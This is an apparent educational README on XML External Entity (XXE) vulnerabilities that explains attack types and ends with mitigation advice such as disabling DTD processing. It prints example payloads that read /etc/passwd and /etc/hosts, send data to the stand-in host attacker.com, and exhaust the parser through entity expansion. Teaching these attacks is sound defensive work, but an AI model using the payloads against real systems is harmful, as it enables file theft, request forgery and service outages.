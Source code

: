 # 🛠️ XML External Entity (XXE) Vulnerability

## 📜 Overview

**XML External Entity (XXE)** is a type of attack targeting applications that process XML input. If an application improperly handles or allows the use of external entities, attackers can exploit it to:

- Access sensitive information on the server.
- Execute remote code.
- Perform denial-of-service (DoS) attacks.
- Compromise system integrity and availability.

---

## 🔍 How It Works

1. **Definition of External XML Entities**
   XML allows the use of external entities, which are special tags used to include external data or resources.

2. **Improper Processing**
   If the application does not validate or filter XML input, malicious external entities can be executed.

3. **Exploitation**
   Attackers can use XXE to exfiltrate data, interact with local files, or execute remote HTTP requests by injecting malicious entities.

---

## ⚙️ Types of XXE Attacks

1. **File Disclosure**
   Access sensitive files on the server, such as configuration files or private keys.

   **Example Payload:**
   ```xml
   <!DOCTYPE root [
     <!ENTITY xxe SYSTEM "file:///etc/passwd">
   ]>
   <root>
     <data>&xxe;</data>
   </root>
   ```

2. **Server-Side Request Forgery (SSRF)**
   Force the server to make HTTP requests to arbitrary addresses.

   **Example Payload:**
   ```xml
   <!DOCTYPE root [
     <!ENTITY xxe SYSTEM "http://malicious-site.com/malware">
   ]>
   <root>
     <data>&xxe;</data>
   </root>
   ```

3. **Denial of Service (DoS)**
   Use large or recursive payloads to overwhelm the parser and crash the server.

   **Example Payload:**
   ```xml
   <!DOCTYPE root [
     <!ENTITY a "b">
     <!ENTITY b "&a;&a;&a;&a;&a;&a;&a;&a;&a;&a;">
   ]>
   <root>
     <data>&b;</data>
   </root>
   ```
---

4. **Blind XXE**
   Scenarios where the attacker cannot directly view the response but can send external requests to observe behavior.

   **Example Payload:**
   ```xml
   <!DOCTYPE root [
     <!ENTITY xxe SYSTEM "http://attacker.com/log?data=exfiltrated">
   ]>
   <root>
     <data>&xxe;</data>
   </root>
   ```
---

## ⚠️ Example Scenario

For example, consider a shopping application that checks product stock levels by sending the following XML to the server:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<stockCheck><productId>381</productId></stockCheck>
```

Imagine an application that accepts XML to configure user settings:

- An attacker submits XML with an external entity.
- The server processes the entity and exposes sensitive data.

**Example Payload:**
```xml
<?xml version="1.0"?>
<!DOCTYPE foo [
  <!ENTITY xxe SYSTEM "file:///etc/hosts">
]>
<foo>&xxe;</foo>
```

The attacker retrieves the contents of the `/etc/hosts` file.

---

## 🛡️ Mitigation Strategies

1. **Disable External Entity Processing**
   Configure your XML parser to disable processing of external entities. For example, in Java:
   ```java
   DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
   dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
   ```

2. **Use Secure Libraries**
   Use libraries that process XML securely, such as `defusedxml` in Python.

3. **Input Validation**
   Validate and sanitize all XML inputs before processing.

4. **Set Proper Access Permissions**
   Restrict access to sensitive files and resources that could be exploited.

5. **Monitoring and Logging**
   Detect suspicious activity by monitoring unusual file or network access patterns.

---

## 📚 Conclusion

XXE vulnerabilities pose a serious threat to applications that process XML. Understanding how these attacks work and implementing robust security measures can protect your applications and their users.

For more information about XXE vulnerabilities, visit the [OWASP XXE Prevention Cheatsheet](https://owasp.org/www-project-cheat-sheets/cheatsheets/XML_External_Entity_Prevention_Cheat_Sheet.html).

---

> **Remember:** Security is an ongoing process. Stay vigilant and update your practices to address evolving threats!
